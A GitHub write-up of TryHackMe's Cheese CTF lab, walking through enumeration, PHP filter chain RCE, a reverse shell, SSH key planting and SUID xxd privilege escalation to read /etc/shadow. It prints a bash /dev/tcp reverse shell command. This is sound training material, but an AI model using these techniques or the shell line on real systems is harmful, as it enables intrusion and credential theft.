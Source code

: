 # Cheese_CTF
Here I am going to demonstrate how to complete tryhackme's Cheese CTF. I will enumerate, exploit, and gain access to root files.
YouTube Video I referenced for help: https://www.youtube.com/watch?v=V6tS5iPIX08

# Enumeration
  ## Ping
  - First thing I did was edit /etc/hosts to hold the IP of the target machine as cheese.thm
    - The /etc/hosts entry is as follows: 10.10.63.230    cheese.thm
    - This allows me to ping the cheese.thm instead of having to remember the address.
    ![image](https://github.com/user-attachments/assets/80d2d092-1a00-4c2b-88d4-959c3d2fe553)

  ## nmap scan
  nmap -p- cheese.thm -T5 -v
    
  - First I scanned all hosts with the above nmap command. I found that every port is open which is strange.
    - The below image shows only some of the ports, since showing all of the ports would be too large of an image.   
    ![image](https://github.com/user-attachments/assets/e2b881f2-df5c-41dc-879a-fb6c3a9a4f1d)

  ## dirsearch
  - Among these open ports is port 80. So the first thing to find any directories associted with the web server I used dirsearch.
    ![image](https://github.com/user-attachments/assets/4a12f6e2-da96-4771-b3ce-a6f34279a133)
    - I found that the above directories through the dirsearch. After searching through some, I found the /messages.html to be especially interesting.
  ## web enumeration
  - I used Caido to view the webpage through it's built in proxy.
  - After visiting the http://cheese.thm/messages.html, I was greeted with the page below.
    ![image](https://github.com/user-attachments/assets/645ed499-eb08-43e5-9708-da5a842efabe)
    
  - After clicking the link I the below message was shown. However, the most interesting part is the php filter in the url which is our attack vector.
    
    ![image](https://github.com/user-attachments/assets/6837bcd1-cdb3-4ccd-97cf-0b195bf00069)
    
# Exploitation
  ## PHP filter
  - I discovered that it's possible to get remote code execution using a php filter chain.
  - I first turned Caido into queing mode to capture the HTTP GET request.
    ![image](https://github.com/user-attachments/assets/46c481b6-ffaa-42c8-877f-5f2b7f6e136a)
  - Gaining the actual remote code execution is done by using a PHP chain generator. The link to the generator is on github: https://github.com/synacktiv/php_filter_chain_generator
    
  ## Reverse Shell
  Link to Reverse Shell setup: https://exploit-notes.hdks.org/exploit/web/security-risk/php-filters-chain/#reverse-shell
  - The first step is to create a revshell script on your local machine. The IP address is changed to your own IP address.
    bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
  - Then in a new terminal uses the php filter generator to generate the chain for RCE.
    ![image](https://github.com/user-attachments/assets/0c1ab196-5f13-49f4-b482-ed30fdec1f37)
  - Then set up a netcat listener on the same port used in the revshell script, which is port 4444.
    ![image](https://github.com/user-attachments/assets/b7215df6-80e6-464d-bef0-34b1d8a9a6ee)
  - Next set up a simple web server on port 80 to curl the request back to your machine.
    ![image](https://github.com/user-attachments/assets/e4d87474-1716-4326-9dfd-f603f1359a43)
  - I pasted the php filter chain created earlier into the GET request we captured earlier to replay, and click send.
    ![image](https://github.com/user-attachments/assets/ee49df70-18de-47ac-b984-5dfabe23a1ef)
  - After sending we can see that a reverse shell has been created.
    ![image](https://github.com/user-attachments/assets/726092d2-fec7-4cf3-9b9b-91abda913ca9)
    ![image](https://github.com/user-attachments/assets/e9ac3a4c-c3a4-4dc0-ac05-59891b2e433b)
# User Flag
  - Now that we are in I can list files and directories. I can also move to the /home direcrory to find hosts (comte being imporant here).
    ![image](https://github.com/user-attachments/assets/02f2e66f-d81f-4099-8cd7-3f0cf38a58b3)
  - We can move into comte and view the files listed. The user.txt file is listed however we get permission denied when trying to read it.
    ![image](https://github.com/user-attachments/assets/df1079cf-e01f-4fc9-ab7d-471ffb625430)
    
  ### SSH Access
  - In order to get access, we need to be able to SSH. As seen before we have write access to the ~/.ssh directory, so we can move to this
    directory and see that there is an authorized_keys file we can write to. This means we can import our own local public key to the
    authorized_keys file to allow us to ssh as comte from our local machine.
    ![image](https://github.com/user-attachments/assets/c707c093-2846-472a-92c3-d99fa552e015)
  - To do this we find our own public key in our /.ssh directory and echo the public key into the authorized_keys file.
    ![image](https://github.com/user-attachments/assets/7e2108c5-3c3c-4a31-8ec3-101e6ccf5244)
    ![image](https://github.com/user-attachments/assets/063eed45-5f5c-42a7-842c-c8300f31b898)
  - Now we can ssh into our target machine as comte from our own machine and successfuly read the file as comte. However, I am not showing the flag here.
    
    ![image](https://github.com/user-attachments/assets/2b94a5b3-d4ac-4cb3-a556-42b132998e97)


# Privelage Escalation
- We can discover what services we can run as comte with the sudo -l command.
  ![image](https://github.com/user-attachments/assets/c053fa75-bb7f-4d56-a4ad-d577fb3041b8)
- Moving into the /etc/systemd directory allows us to view the details of the exploit.timer and exploit.service.
  ![image](https://github.com/user-attachments/assets/ad5e5f8d-bf04-4bc4-ace8-ec81c4602e64)
- As seen there isn't a time specified yet in the exploit timer, so I used nano to modify the exploit.timer file and specify 5 seconds.
  ![image](https://github.com/user-attachments/assets/4611fc23-472a-445c-928c-0d85fbd8d676)
- After setting this it's possible to run the sudo commands from earlier to run the exploit timer. Then you can move into the /opt directory to view
  the xxd service.
  - Link to view /xxd binary privelage escalation tactics: https://gtfobins.github.io/gtfobins/xxd/
  ![image](https://github.com/user-attachments/assets/a0dbe60e-932f-4289-bd60-bb4684ea7399)
- The above link says the -s bit of the /.xxd allows for any files to be read. So we can now read files only availabe to root such as /etc/shadow
  ![image](https://github.com/user-attachments/assets/107ae72f-9c1c-46e4-9872-b0be0b1ef7a4)


# Root Flag
- Using the above method the root.txt file can also be read to gain the root flag. Which I once again will not show.
  ![image](https://github.com/user-attachments/assets/50a91a3a-7ab7-4cbf-8b86-11cd77213557)













